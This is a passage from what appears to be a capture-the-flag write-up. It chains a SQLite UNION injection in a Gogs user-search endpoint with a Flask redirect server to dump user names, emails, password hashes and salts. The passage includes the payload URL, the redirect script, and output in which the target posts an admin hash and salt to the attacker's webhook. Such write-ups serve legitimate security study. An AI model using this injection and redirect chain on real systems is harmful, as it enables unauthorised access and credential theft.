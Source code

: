 Those are the 27 columns I noticed in the exploit. `name` is the third column.

I want the name, email, password, and salt for each user. I’ll update the query, using `||` to concatenate in SQLite:

```

http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-

```

This works locally:

![image-20230106172659400](https://0xdfimages.gitlab.io/img/image-20230106172659400.png)

#### Get Hash

I’ll update the script to get this same URL on Health:

```

from flask import Flask, redirect, request

app = Flask(__name__)

@app.route("/redirect", methods=["GET"])
def redir():
    #target = "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,sqlite_version(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-"
    target = "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-"
    return redirect(target)

@app.route("/test", methods=["GET"])
def test():
    return ("Hello!", 200)

@app.route("/hook", methods=["POST"])
def hook():
    print("Got Hook!")
    print(request.json)
    return ('', 200)

if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80)

```

I get the following back:

```
10.10.11.176 - - [06/Jan/2023 22:27:43] "GET /redirect HTTP/1.0" 302 -
Got Hook!
{'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': '{"data":[{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"},{"username":"susanne:admin@gogs.local:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37:sO3XIbeW14","avatar":"//1.gravatar.com/avatar/15"}],"ok":true}', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'application/json; charset=UTF-8', 'Content-Length': '301', 'Location': "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-", 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 22:27:43 GMT', 'Set-Cookie': '_csrf=; Path=/; Max-Age=0'}}
10.10.11.176 - - [06/Jan/2023 22:27:43] "POST /hook HTTP/1.1" 200 -

```